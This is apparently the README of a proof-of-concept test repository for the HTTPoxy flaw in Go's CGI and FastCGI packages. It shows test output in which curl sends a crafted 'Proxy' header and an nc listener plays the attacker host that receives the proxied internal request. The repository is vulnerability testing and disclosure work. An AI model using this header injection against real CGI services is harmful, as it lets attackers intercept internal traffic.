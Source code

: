 # Go HTTPoxy Vulnerability under CGI

Go is not usually deployed under CGI.

But there is: https://golang.org/pkg/net/http/cgi/
and: https://golang.org/pkg/net/http/fcgi/

Run `./build` to get started

There are two test cases:

* net/http/cgi with an apache server, and
* net/http/fcgi with an nginx server

## Versions of go tested

* 1.2.1
* 1.6
* Latest snapshot @ 20160630

## Example run

### cgi

```
Testing: cgi/apache...
Testing done.


Here's the curl output from the client
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   532  100   532    0     0  64383      0 --:--:-- --:--:-- --:--:-- 66500
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
</body></html>


Tests finished. Result time...
Here is the output from the cgi program and apache logs:
==> /var/log/apache2/access.log <==
172.17.0.1 - - [01/Jul/2016:15:34:06 +0000] "GET /httpoxy HTTP/1.1" 500 739 "-" "curl/7.35.0"

==> /var/log/apache2/error.log <==
[Fri Jul 01 15:34:02.516877 2016] [mpm_event:notice] [pid 14:tid 139625779124096] AH00489: Apache/2.4.10 (Debian) OpenSSL/1.0.1t configured -- resuming normal operations
[Fri Jul 01 15:34:02.517157 2016] [core:notice] [pid 14:tid 139625779124096] AH00094: Command line: '/usr/sbin/apache2 -D FOREGROUND'
2016/07/01 15:34:06 Get http://example.com/: EOF
[Fri Jul 01 15:34:06.826194 2016] [cgid:error] [pid 17:tid 139625679427328] [client 172.17.0.1:37733] End of script output before headers: httpoxy

==> /var/log/apache2/other_vhosts_access.log <==


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
Connection from [172.17.0.2] port 12345 [tcp/*] accepted (family 2, sport 55574)
GET http://example.com/ HTTP/1.1
Host: example.com
User-Agent: Go 1.1 package http
Accept-Encoding: gzip

end of trouble
```

### fcgi

```
Testing: fcgi/nginx
Testing done.


Here's the curl output from the client
./build: line 111:  6547 Terminated              nc -v -l 12345 > ./fcgi-mallory.log 2>&1
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 127.0.0.1 (127.0.0.1) port 2082 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.35.0
> Host: 127.0.0.1:2082
> Accept: */*
> Proxy: 172.17.0.1:12345
>
< HTTP/1.1 200 OK
* Server nginx/1.10.1 is not blacklisted
< Server: nginx/1.10.1
< Content-Type: text/plain; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Date: Fri, 01 Jul 2016 15:34:07 GMT
<
{ [data not shown]
100  1398    0  1398    0     0   2640      0 --:--:-- --:--:-- --:--:--  2637
* Connection #0 to host 127.0.0.1 left intact
Response body from internal subrequest:<!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;

    }
    div {
        width: 600px;
        margin: 5em auto;
        padding: 50px;
        background-color: #fff;
        border-radius: 1em;
    }
    a:link, a:visited {
        color: #38488f;
        text-decoration: none;
    }
    @media (max-width: 700px) {
        body {
            background-color: #fff;
        }
        div {
            width: auto;
            margin: 0 auto;
            border-radius: 0;
            padding: 1em;
        }
    }
    </style>
</head>

<body>
<div>
    <h1>Example Domain</h1>
    <p>This domain is established to be used for illustrative examples in documents. You may use this
    domain in examples without prior coordination or asking for permission.</p>
    <p><a href="http://www.iana.org/domains/example">More information...</a></p>
</div>
</body>
</html>

Method: GET
URL: http://127.0.0.1:2082/
RemoteAddr: 172.17.0.1:0
UserAgent: curl/7.35.0


Tests finished. Result time...
Here is the nginx logs (containing output from the fcgi program)
172.17.0.1 - - [01/Jul/2016:15:34:07 +0000] "GET / HTTP/1.1" 200 1410 "-" "curl/7.35.0" "-"


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
end of trouble
```

## Results

### net/http/cgi + net/http vulnerable

The results indicate that using net/http while processing a net/http/cgi request is vulnerable to injection of a proxy
via the user-controlled `Proxy` header (because it reads and trusts the environment variable `HTTP_PROXY`). The important
bit is the lines starting at `Connection from [172.17.0.2] port 12345 [tcp/*] accepted (family 2, sport 55574)` that
indicate a remote attacker has received the proxied internal request.

### net/http/fcgi + net/http not vulnerable

The results also indicate that using net/http/fcgi is not vulnerable in the same way (because environment variables are
not actually set.)
